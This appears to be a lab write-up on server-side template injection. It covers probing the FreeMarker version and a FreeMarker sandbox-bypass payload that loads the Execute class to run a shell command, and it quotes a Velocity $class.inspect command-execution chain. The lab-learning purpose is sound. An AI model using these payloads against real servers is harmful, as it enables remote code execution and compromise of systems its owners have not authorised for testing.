



# Server-side template injection in a sandboxed environment

## Lab Description :


## Overview :
Constructing a custom exploit using an object chain

As described above, the first step is to identify objects and methods to which you have access. Some of the objects may immediately jump out as interesting. By combining your own knowledge and the information provided in the documentation, you should be able to put together a shortlist of objects that you want to investigate more thoroughly.

For example, in the Java-based template engine Velocity, you have access to a ClassTool object called $class. Studying the documentation reveals that you can chain the $class.inspect() method and $class.type property to obtain references to arbitrary objects. In the past, this has been exploited to execute shell commands on the target system as follows:

```java
$class.inspect("java.lang.Runtime").type.getRuntime().exec("bad-stuff-here")
```
## Solution :
As per the lab description we know the following,

 . Freemarker template is used.

 . sandbox environment.

### Identifying the version of Freemarker -

Login as content-manager & click on any product. We have an option to edit template.



We can find the version of Freemarker being used by using the following command.


```java
<#assign freemarkerVersion = .version>
FreeMarker version: ${freemarkerVersion}
```
On previewing it, we came to know that it is ``FreeMarker version: 2.3.29``

## RCE -
Here is the following command to bypass sandbox environment in Freemarker template as mentioned in : https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#freemarker---sandbox-bypass

```java
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```

But when we enter this in the edit template field & click preview , it throws the following error.



It seems that the article object is causing the error, so remove the entire template content & enter only the payload.

#### Visit The Next Page For The Next Level :)
